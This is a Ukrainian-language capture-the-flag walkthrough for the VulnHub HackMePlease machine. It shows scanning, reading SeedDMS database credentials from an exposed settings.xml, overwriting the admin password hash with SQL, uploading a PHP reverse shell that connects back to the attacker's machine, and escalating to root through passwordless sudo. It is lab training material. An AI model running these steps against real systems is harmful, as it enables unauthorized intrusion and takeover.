# Проходження CTF HackMePlease машини
В цьому документі наведено розгорнуте пояснення до завдання **Capture the Flag (CTF)**, опубліковане на сайті **VulnHub**. Відповідно до наданої автором інформації, рівень складності цього CTF — **ЛЕГКИЙ-СЕРЕДНІЙ**, а мета — отримати **root-доступ** до цільової машини та знайти **файли-флаги**.  

Завантажити CTF можна [тут](https://www.vulnhub.com/entry/hackme-1,731/).  

---

## **Короткий огляд кроків вирішення CTF**

1. Отримати **IP-адресу цільової машини** (**netdiscover**).
2. Просканувати **відкриті порти цільової машини** (**nmap**).  
3. Перевірити **HTTP-сервіс** та знайти підказки.  
4. Дослідити **MySql** сервіс.
5. Отримати віддалений доступ.
6. Зробити підвищення привілеїв.
   

---

### 1. Отримання **IP-адресу цільової машини**

```sh
sudo netdiscover -r 192.168.56.0/24
```

### 2. Сканування **відкритих портів цільової машини**.

```sh
nmap -sC -sV -p- 192.168.56.107 --reason
```

Отримуємо наступне:


Таким чином, в нас є інформація для подальшого дослідження вебвервісу та сервісу БД.


### 3. Дослідження вебсервера

У браузері відкриваємо http://192.168.56.107,  отримуємо:



Передивляємось, з чим маємо справу, виявляється, що це фрішна тулза для менеджерів проєктів.

Виявляємо доступні директорії:

**Детальний розбір команди**
```sh
gobuster dir -u http://10.0.2.17 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip
```

За декілька хвилин отримуємо наступний результат:



Існує декілька варіантів для подальших досліджень, то почнемо.

---

## Дослідження SeedDMS та експлуатація

Ця сторінка не надає багато інформації, але перегляд **вихідного коду сторінки (page source)** дозволяє побачити JavaScript-файли, зокрема **main.js**, який містить посилання на директорію:



Після відкриття файлу **main.js** можна побачити шлях:
**/seeddms51x/seeddms-5.1.22/**

Перехід за цим шляхом приводить до **панелі входу SeedDMS**.



---

## Дослідження SeedDMS

Було випробувано стандартні облікові дані:

* `admin:admin`
* `admin:password`

Жодна з комбінацій не спрацювала.

Пошук в інтернеті вразливостей SeedDMS показав можливість **віддаленого виконання команд (Remote Command Execution, RCE)**, але для її експлуатації потрібна автентифікація.

На цьому етапі здавалося, що немає очевидного шляху подальших дій.

---

## 🔎 Повторне сканування директорій

Було повторно запущено **gobuster** для каталогу `/seeddms51x/`:

```bash
gobuster dir --url http://192.168.56.107/seeddms51x/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,html,zip

```

У результаті було виявлено директорію:

```
/conf/
```

Вона доступна за адресою:

```
http://192.168.56.107/seeddms51x/conf/
```

---

## Аналіз структури конфігураційних файлів

Подальше дослідження структури коду SeedDMS (за допомогою [SeedDMS source code – conf directory](https://sourceforge.net/p/seeddms/code/ci/master/)
) дозволило отримати уявлення про розташування конфігураційних файлів.

Після ідентифікації директорії `/conf` за допомогою **gobuster** та переходу в неї було виявлено декілька конфігураційних файлів, які дають краще розуміння файлової структури SeedDMS.



Серед них знаходиться файл:

```
settings.xml.template
```



Цей файл є **шаблоном основного конфігураційного файлу**, який має назву:

```
settings.xml
```

Перейшовши за адресою:

```
http://192.168.56.107/seeddms51x/conf/settings.xml
```

можна отримати файл **settings.xml**, який містить важливі конфігураційні параметри.

---

## Отримання облікових даних MySQL



Під час аналізу файлу `settings.xml` було виявлено облікові дані MySQL:

```xml
dbUser="seeddms" 
dbPass="seeddms"
```
---

## Крок 3: Перелік (Enumeration) MySQL

Для підключення до бази даних було використано команду:

```bash
mysql -h 192.168.56.107 -u seeddms -p seeddms --ssl=0
```

Після підключення виконуємо команду:

```sql
SHOW DATABASES;
```



Оскільки ми вже всередині бази seeddms, поглянемо що в ній:

У цій базі були виявлені таблиці:

```sql
SHOW TABLES;
```


```sql
DESCRIBE users;
```



```sql
SELECT * FROM users;
```


```sql
SELECT * FROM tblUsers;
```


---

### 📋 Аналіз таблиці users

```sql
SELECT * FROM users;
```

У таблиці було знайдено облікові дані користувача:

* **Користувач:** `saket`
* **Пароль:** `Saket@#$1337`

Спроба увійти з цими даними була невдалою.

---

### 📋 Аналіз таблиці tblUsers

```sql
SELECT * FROM tblUsers;
```

У цій таблиці було знайдено облікові дані користувача **admin**, але пароль збережений у вигляді **хешу**:

```
f9ef2c539bad8a6d2f3432b6d49ab51a
```

Було визначено, що це хеш типу **MD5**.
Спроби розшифрувати його через онлайн-сервіси не дали результату.

Замість підбору хешу було використано інший підхід:
створено власний MD5-хеш для відомого пароля та безпосередньо підмінено значення у базі даних.

---

### Заміна пароля адміністратора

Наприклад, MD5-хеш для слова `12345Qwerty`:
```
a76beaa42a7c65d1b3d49cb4757e6b91
```


Команда для оновлення пароля:

```sql
UPDATE tblUsers 
SET pwd='a76beaa42a7c65d1b3d49cb4757e6b91' 
WHERE login='admin';
```



Після цього вхід у систему під користувачем **admin** з паролем **12345Qwerty** став успішним.

---

##  Крок 4: Експлуатація Remote Command Execution

Після успішної автентифікації повертаємось до знайденого експлойту.
Використовуючи авторизовану сесію, було завантажено **PHP reverse shell**.

### Кроки:

1. Завантаження реверс-шеллу:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

2. Модифікація параметрів `$ip` та `$port` відповідно до машини атакуючого.

```sh
$ip = '192.168.56.108';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

3. Завантаження файлу через розділ **Add Document** у SeedDMS.


4. Після завантаження, навівши курсор на файл, у нижньому лівому куті браузера видно шлях до файлу.
   З цього посилання визначається **ID документа** (у нашому випадку  `5`).
   **http://10.0.2.17/seeddms51x/seeddms-5.1.22/out/out.ViewDocument.php?documentid=5&showtree=1**



5. Запуск **nc** та слухаємо порт **3421**:

```bash
nc -lnvp 4444
```

6. Виконання шеллу:

```
http://192.168.56.107/seeddms51x/data/1048576/5/2.php
```
Параметри взято з офіційної документації, та означають наступне:

```text
data/{contentOffsetDir}/{ID_документа}/{ID_версії}.{розширення}
         1048576              5              2         php
```
[Посилання на офіційну документацію:](https://sourceforge.net/p/seeddms/code/ci/seeddms-5.1.x/tree/conf/settings.xml.template)

7. Отримано shell з обмеженими правами користувача **www-data**.



> Отриманий shell нестабільний. Для покращення інтерактивності рекомендується оновити його до повноцінного терміналу.
```sh
python -c "import pty; pty.spawn('/bin/bash')"
```
Немає пайтона :-), користуємось тим, що є:
```sh
script -qc /bin/bash /dev/null
```
---

## ⬆️ Підвищення привілеїв

Перевірка домашніх каталогів:

```bash
ls /home
```

Виявлено користувача `saket`, але доступ обмежений.

Оскільки облікові дані вже відомі (`saket:Saket@#$1337`), виконуємо:

```bash
su saket
```

Перевірка sudo-привілеїв:

```bash
sudo -l
```


Виявилося, що користувач `saket` має **повні sudo-права без пароля**, що дозволяє виконувати будь-які команди від імені root.

Отримання root-доступу:

```bash
sudo /bin/sh
```

---

##  Root-доступ отримано, вітання! 


